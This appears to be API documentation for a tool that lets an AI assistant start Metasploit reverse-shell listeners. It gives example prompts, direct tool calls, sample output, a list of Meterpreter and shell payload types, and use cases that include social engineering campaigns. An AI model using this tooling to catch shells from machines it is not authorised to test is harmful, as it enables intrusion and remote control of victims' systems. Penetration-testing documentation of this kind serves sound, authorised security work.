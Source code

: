 **Returns**:
- Dictionary with status, message, job_id, and handler details

**Example Usage**:

```python
# Natural language with AI
"Start a reverse TCP handler on port 4444"
"Listen for Windows Meterpreter on port 8080"
"Create a handler for Linux shells on my IP port 5555"

# Direct tool call
start_listener(
    payload_type="windows/meterpreter/reverse_tcp",
    lhost="192.168.1.10",
    lport=4444
)

start_listener(
    payload_type="linux/x86/shell/reverse_tcp",
    lhost="0.0.0.0",
    lport=5555,
    exit_on_session=False
)
```

**Sample Output**:
```json
{
  "status": "success",
  "message": "Listener for windows/meterpreter/reverse_tcp started as job 1 on 192.168.1.10:4444.",
  "job_id": 1,
  "payload_name": "windows/meterpreter/reverse_tcp",
  "payload_options": {
    "LHOST": "192.168.1.10",
    "LPORT": 4444
  }
}
```

**Common Payload Types**:
- `windows/meterpreter/reverse_tcp` - Windows Meterpreter
- `windows/shell/reverse_tcp` - Windows CMD shell
- `linux/x86/meterpreter/reverse_tcp` - Linux Meterpreter
- `linux/x86/shell/reverse_tcp` - Linux bash shell
- `python/meterpreter/reverse_tcp` - Python Meterpreter
- `php/meterpreter/reverse_tcp` - PHP Meterpreter

**Handler Behavior**:
- `exit_on_session=false`: Handler stays active for multiple connections
- `exit_on_session=true`: Handler closes after first session

**Use Cases**:
- Preparing to receive reverse shells
- Setting up before exploit execution
- Handling multiple payloads
- Creating persistent listeners
- Social engineering campaigns
